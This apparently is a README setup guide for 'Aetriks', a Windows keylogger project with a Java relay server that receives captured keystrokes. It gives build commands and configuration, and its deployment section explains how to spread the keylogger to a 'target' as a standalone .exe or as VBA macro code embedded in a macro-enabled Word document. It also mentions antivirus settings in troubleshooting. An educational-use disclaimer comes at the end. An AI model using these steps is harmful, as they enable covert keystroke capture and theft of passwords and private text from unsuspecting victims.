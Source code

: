 # Aetriks Setup Guide

This guide provides detailed instructions for setting up and running the Aetriks keylogger project.

## Prerequisites

### For Keylogger (Windows)
- Python 3.7 or higher
- pip package manager
- Windows operating system
- Network connectivity

### For Relay Server (Any OS)
- Java 17 or higher
- Maven 3.6 or higher
- Network connectivity

## Step-by-Step Setup

### 1. Clone the Repository

```bash
git clone https://github.com/frHimanshu/aetriks-relay.git
cd aetriks-relay
```

### 2. Set Up the Relay Server

#### Option A: Using Build Scripts (Windows)
```bash
# Build the server
scripts\build_relay_server.bat

# Run the server
scripts\run_relay_server.bat
```

#### Option B: Manual Setup
```bash
# Navigate to relay server directory
cd relay-server

# Build the project
mvn clean install

# Run the server
mvn spring-boot:run
```

The server will start on `http://localhost:8080`

### 3. Configure the Keylogger

1. Edit `keylogger/config.json`:
```json
{
    "ip_address": "YOUR_SERVER_IP",
    "port_number": 8080,
    "time_interval": 10
}
```

2. Replace `YOUR_SERVER_IP` with:
   - `127.0.0.1` for local testing
   - Your server's actual IP address for remote deployment

### 4. Build the Keylogger

#### Option A: Using Build Scripts (Windows)
```bash
scripts\build_keylogger.bat
```

#### Option B: Manual Setup
```bash
# Navigate to keylogger directory
cd keylogger

# Install dependencies
pip install -r requirements.txt

# Build executable
pyinstaller --onefile --name aetriks-keylogger --add-data=config.json:. keylogger.py
```

The executable will be created at `keylogger/dist/aetriks-keylogger.exe`

### 5. Test the Setup

1. Start the relay server
2. Run the keylogger executable
3. Type some text
4. Check the server logs at `http://localhost:8080`

## Advanced Configuration

### Relay Server Configuration

Edit `relay-server/src/main/resources/application.properties`:

```properties
# Server Configuration
server.port=8080
server.address=0.0.0.0

# Logging Configuration
logging.level.root=INFO
logging.file.name=logs/aetriks-relay.log

# HTTP Encoding Configuration
spring.http.encoding.charset=UTF-8
spring.http.encoding.enabled=true
spring.http.encoding.force=true
```

### Keylogger Configuration

The keylogger supports the following configuration options:

- `ip_address`: Server IP address
- `port_number`: Server port number
- `time_interval`: Data transmission interval in seconds

## Deployment Options

### 1. Executable Deployment
- Build the executable using PyInstaller
- Distribute the `.exe` file
- Ensure the target has network access to your server

### 2. VBA Document Deployment
1. Build the executable
2. Convert to VBA:
   ```bash
   cd keylogger
   python exe_to_vba.py dist/aetriks-keylogger.exe
   ```
3. Embed the generated VBA code in a Word document
4. Save as `.docm` (macro-enabled)
5. Distribute the document

### 3. Source Code Deployment
- Copy the Python source files
- Install dependencies on target
- Run directly with Python

## Troubleshooting

### Common Issues

1. **Connection Refused**
   - Check if the relay server is running
   - Verify IP address and port in config.json
   - Ensure firewall allows the connection

2. **Build Failures**
   - Ensure all dependencies are installed
   - Check Python and Java versions
   - Verify Maven is properly configured

3. **Permission Errors**
   - Run as administrator if needed
   - Check antivirus software settings
   - Ensure proper file permissions

### Debug Mode

Enable debug logging by modifying the keylogger:

```python
# Add to keylogger.py
import logging
logging.basicConfig(level=logging.DEBUG)
```

## Security Considerations

1. **Network Security**
   - Use HTTPS in production
   - Implement proper authentication
   - Restrict network access

2. **Data Protection**
   - Encrypt sensitive data
   - Implement access controls
   - Regular security audits

3. **Legal Compliance**
   - Ensure proper authorization
   - Follow local regulations
   - Document usage policies

## Support

For issues and questions:
- Discord: `_himanshu__`
- GitHub: [frHimanshu](https://github.com/frHimanshu)

## Legal Notice

This software is for educational purposes only. Users are responsible for ensuring they have proper authorization before use. 